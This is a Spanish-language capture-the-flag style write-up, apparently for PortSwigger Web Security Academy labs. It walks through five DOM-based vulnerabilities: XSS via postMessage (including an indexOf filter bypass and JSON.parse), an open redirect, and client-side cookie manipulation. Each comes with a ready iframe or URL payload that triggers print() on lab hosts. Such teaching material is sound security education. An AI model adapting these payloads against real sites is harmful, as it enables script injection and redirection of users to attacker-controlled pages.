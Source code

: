 ## Reto 1: DOM XSS usando mensajes web

Este laboratorio demuestra una vulnerabilidad simple de mensajes web. Para resolverla, utilice el servidor de exploits para enviar un mensaje al sitio objetivo que causa la... print()función a llamar.


Este laboratorio demuestra cómo una vulnerabilidad DOM XSS puede explotarse a través del uso de web messages. La página objetivo escucha mensajes entrantes con addEventListener y luego inserta su contenido directamente en el DOM dentro de un contenedor específico, sin ningún tipo de validación.

Desde el servidor de explotación, se carga la página vulnerable dentro de un iframe y se utiliza postMessage para enviar un payload malicioso que contiene una etiqueta img con un atributo onerror que ejecuta la función print. Esta acción demuestra cómo el uso inseguro de web messages puede comprometer la seguridad del sitio cuando el contenido recibido se trata como si fuera seguro.


```html
<style>
    iframe {
        position:relative;
        width:900px;
        height: 900px;
        z-index: 2;
    }

</style>
<iframe src="https://0ab2005503c2923b803bc6fc00bd0017.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

## Reto 2:DOM XSS usando mensajes web y una URL de JavaScript

Este laboratorio demuestra una vulnerabilidad de redirección basada en DOM que se activa mediante mensajería web. Para resolver este laboratorio, cree una página HTML en el servidor de exploits que explote esta vulnerabilidad y llame al print() función.


En este laboratorio explotamos una vulnerabilidad de tipo DOM XSS basada en redirección, donde la aplicación escucha mensajes entrantes mediante postMessage y utiliza su contenido como destino para un cambio de página usando ‘location.href‘. Aunque intenta validar que la URL comienza con http o https, el uso incorrecto de indexOf permite eludir la comprobación.

Desde el exploit server, se carga la página vulnerable dentro de un iframe y se envía un mensaje que contiene un payload JavaScript válido seguido de una cadena que incluye http, lo suficiente para pasar el filtro. Al llegar al sink ‘location.href‘, se ejecuta la función print, demostrando cómo una validación mal implementada puede abrir la puerta a la ejecución de código arbitrario.

```html
<iframe src="https://0a40003a0333871280748fc800f00028.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

## Reto 3: DOM XSS usando mensajes web y JSON.parse


Este laboratorio utiliza mensajería web y analiza el mensaje como JSON. Para resolver el laboratorio, cree una página HTML en el servidor de exploits que explote esta vulnerabilidad y llame al print() función.

En este laboratorio aprovechamos una vulnerabilidad de tipo DOM XSS donde la aplicación recibe mensajes mediante postMessage, los interpreta como JSON con JSON.parse y, según su contenido, modifica dinámicamente el atributo src de un iframe interno.

El ataque consiste en enviar desde un iframe un mensaje JSON con un campo type establecido en load-channel y un campo url que contiene un payload en forma de URL JavaScript. El listener interno interpreta el mensaje, valida el tipo y actualiza el iframe sin realizar ninguna comprobación de origen ni sanitización.

```html
<iframe src=https://0a7900b303e3ee3d80bcbce100c8005e.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

## Reto 4: Redirección abierta basada en DOM

Este laboratorio contiene una vulnerabilidad de redirección abierta basada en DOM. Para solucionarlo, explote esta vulnerabilidad y redirija a la víctima al servidor de exploits. 

En este laboratorio nos enfrentamos a una vulnerabilidad de tipo open redirection basada en el DOM. El comportamiento vulnerable se produce al hacer clic en un enlace que evalúa un parámetro url directamente desde el fragmento del location.href sin realizar ninguna validación.

El enlace ejecuta un pequeño script que extrae con una expresión regular el valor del parámetro url y redirige al usuario allí, lo cual puede ser aprovechado para enviar a la víctima a un dominio externo controlado por un atacante.

Para explotar el fallo, construimos una URL que apunta al sitio vulnerable incluyendo como valor del parámetro url la dirección del exploit server. Cuando la víctima accede, se realiza la redirección automática hacia el servidor del atacante.

```http
https://0aa800200443f2df80d1b78b007a0078.web-security-academy.net/post?postId=10&url=https://exploit-0a8000cb04f7f2df80c1b62001860024.exploit-server.net/
```

## Reto 5:Manipulación de cookies basada en DOM

Este laboratorio demuestra la manipulación de cookies del lado del cliente basada en DOM. Para resolver este laboratorio, inyecte una cookie que cause un XSS en una página diferente y llame a la print()Función. Necesitará usar el servidor de exploits para dirigir a la víctima a las páginas correctas. 

```html
<iframe src="https://0a6500a00473d2f780d826bc00f800ab.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://0a6500a00473d2f780d826bc00f800ab.web-security-academy.net';window.x=1;">
```
